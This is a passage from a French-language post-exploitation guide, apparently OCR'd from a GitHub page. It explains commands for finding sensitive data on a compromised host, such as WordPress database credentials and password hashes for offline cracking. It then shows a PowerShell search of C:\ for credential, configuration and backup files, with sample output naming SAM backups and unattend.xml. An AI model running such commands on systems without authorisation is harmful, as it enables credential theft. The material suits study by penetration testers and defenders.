 **Analyse :** Ces commandes permettent de rechercher et d'extraire des données sensibles sur un système compromis. La première commande recherche des fichiers potentiellement intéressants en se basant sur leurs extensions ou noms. La deuxième commande examine un fichier de configuration WordPress qui contient des identifiants de base de données. La troisième commande utilise ces identifiants pour extraire les hachages de mots de passe des utilisateurs WordPress, qui pourraient être craqués hors ligne.

**Commande pour rechercher des fichiers sensibles sur Windows :**
```powershell
Get-ChildItem -Path C:\ -Include *.xml,*.ini,*.txt,*.cfg,*.config,*.conf,*.bak,*.backup,*pass*,*cred* -File -Recurse -ErrorAction SilentlyContinue | Select-Object FullName | Select -First 20
```

**Sortie typique :**
```
FullName
--------
C:\Users\Administrator\Desktop\admin_notes.txt
C:\Users\Administrator\Documents\credentials.xml
C:\Users\web\AppData\Roaming\FileZilla\sitemanager.xml
C:\inetpub\wwwroot\web.config
C:\inetpub\wwwroot\backup\db_backup.bak
C:\Program Files\Backup\config.ini
C:\Windows\Panther\unattend.xml
C:\Windows\System32\config\SAM.bak
C:\Windows\System32\config\SYSTEM.bak
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\setupact.log
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\debug\WIA\wiatrace.log
C:\Windows\inf\setupapi.dev.log
C:\Windows\Panther\UnattendGC\setupact.log

